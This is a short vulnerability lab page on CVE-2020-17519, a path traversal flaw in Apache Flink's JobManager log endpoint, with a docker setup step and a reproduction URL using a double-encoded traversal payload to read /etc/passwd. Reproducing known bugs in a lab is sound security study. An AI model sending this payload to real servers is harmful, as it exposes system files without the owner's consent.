

Apache Flink jobmanager/logs Path Traversal (CVE-2020-17519)¶
Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.
A vulnerability introduced in Apache Flink 1.11.0 (and present in versions 1.11.1 and 1.11.2) allows attackers to read arbitrary files from the local filesystem through the JobManager's REST interface. This path traversal vulnerability exists in the log viewing functionality.
References:
- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519
Environment Setup¶
Execute the following command to start an Apache Flink jobmanager 1.11.2:
docker compose up -d
After the Apache Flink service is started, visit http://your-ip:8081 to access the management interface.
Vulnerability Reproduction¶
Access the following URL to read the contents of /etc/passwd file from the target server:
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
